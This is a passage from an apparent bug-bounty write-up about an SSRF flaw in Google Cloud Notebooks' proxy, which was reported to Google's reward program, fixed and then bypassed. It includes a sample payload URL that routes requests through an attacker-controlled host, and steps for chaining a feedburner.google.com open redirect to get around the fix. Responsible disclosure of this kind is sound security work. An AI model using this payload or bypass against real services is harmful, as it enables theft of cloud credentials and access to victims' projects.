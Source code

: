 The attacker needs to know the victim's subdomain for the attack to work. The `Instance-ID` in the victim's subdomain is random and cannot be guessed. So, here are some ways it could be obtained.

- By default, every person's subdomain is leaked to several third-party domains via referer in the general application flow. Some of those domains are:  

    1. https://avatars.githubusercontent.com/
    2. https://github.com
    3. https://registry.npmjs.org  
Anyone with access to these domains or vulnerabilities in these servers could leak the subdomain.  

- Anyone with a "Notebook viewer" role in the victim's project can see the subdomain and then exploit this issue to gain access to all of the victim's projects.  

**Sample payload**: `https://29559448054aa43f-dot-us-central1.notebooks.googleusercontent.com/aipn/v2/proxy/logger.geekycat.in/compute.googleapis.com/`  

## Reward:  

We reported this issue to Google as a part of their Vulnerability Reward Program. They awarded us with a $5000 bounty.  

## Fix:
- Added CSRF protection to the `GET` endpoints.
- Extracts and verifies the domain properly.  

## The bypass:
 After the fix was rolled out, I noticed another behavior that wasn't there before.  

URL:`https://{INSTANCE-ID}-dot-us-central1.notebooks.googleusercontent.com/aipn/v2/proxy/compute.googleapis.com/`  

Earlier, changing `compute.googleapis.com` with something.google.com would result in an error. But this time, it works. Now, if I could find an open redirection in `*.google.com` I could chain that to bypass this check.  

The most common publicly documented open redirects in Google are javascript-based redirections, which wouldn't work in our case since the server doesn't parse JS. So I jumped in to find a 3xx redirection in Google subdomains.  

After a few minutes, I stumbled upon `https://feedburner.google.com`. This service lets you manage the RSS feed for your domain. This works like a proxy to your RSS feed.  

![feedproxy](/images/gcloud-ssrf/feedproxy.png)  

 On playing around, I noticed a behavior that could get us an open redirect. That is, if your proxy is deactivated, it will redirect the URL to your domain rather than proxying your RSS feed.  

## Setting up the open-redirect:  

- Host a RSS file in your domain (logger.geekycat.in)
- Navigate to `https://feedburner.google.com` --> Create proxy --> Enter `https://attacker.com/rss.xml` for Feed URL --> Next --> Copy the "Custom Url" --> Create  
